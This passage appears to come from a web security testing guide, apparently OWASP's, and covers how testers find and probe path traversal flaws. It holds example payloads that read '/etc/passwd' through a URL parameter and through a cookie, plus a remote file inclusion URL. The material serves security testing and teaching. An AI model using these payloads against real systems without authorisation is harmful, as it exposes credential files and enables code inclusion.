- (**a**) **Input Vectors Enumeration** (a systematic evaluation of each input vector)
- (**b**) **Testing Techniques** (a methodical evaluation of each attack technique used by an attacker to exploit the vulnerability)

## Test Objectives

- Identify injection points that pertain to path traversal.
- Assess bypassing techniques and identify the extent of path traversal.

## How to Test

### Black-Box Testing

#### Input Vectors Enumeration

In order to determine which part of the application is vulnerable to input validation bypassing, the tester needs to enumerate all parts of the application that accept content from the user. This also includes HTTP GET and POST queries and common options like file uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?
  - `http://example.com/getUserProfile.jsp?item=ikki.html`
  - `http://example.com/index.php?file=content`
  - `http://example.com/main.cgi?home=index.htm`
- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
  - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
  - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string “*../../../../etc/passwd*” to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

For the cookies example:

`Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

It's also possible to include files and scripts located on external website.

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

